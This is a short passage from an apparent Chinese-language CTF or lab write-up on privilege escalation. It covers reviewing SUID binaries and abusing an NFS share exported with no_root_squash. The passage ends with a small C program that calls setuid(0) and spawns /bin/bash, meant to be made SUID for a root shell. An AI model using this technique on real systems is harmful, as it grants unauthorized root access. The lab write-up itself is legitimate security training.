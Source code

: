 
接下来需要提权

![QQ_1732797861560](images/27.png)

suid看到了ftp和pkexec，尝试pkexec，chmod没有suid权限，无法加可执行权限

https://fushuling.com/index.php/2023/10/04/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7delivery/这里用到了ftp提权，wp中直接就用nfs提权了

![QQ_1732798266010](images/28.png)

开启了`no_root_squash`选项设置，这样在web机挂载目录改变权限是，在joyce用户中的权限也得以改变

所以直接编译一个调用bash的二进制文件，然后加suid权限，运行就是root权限了

```
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

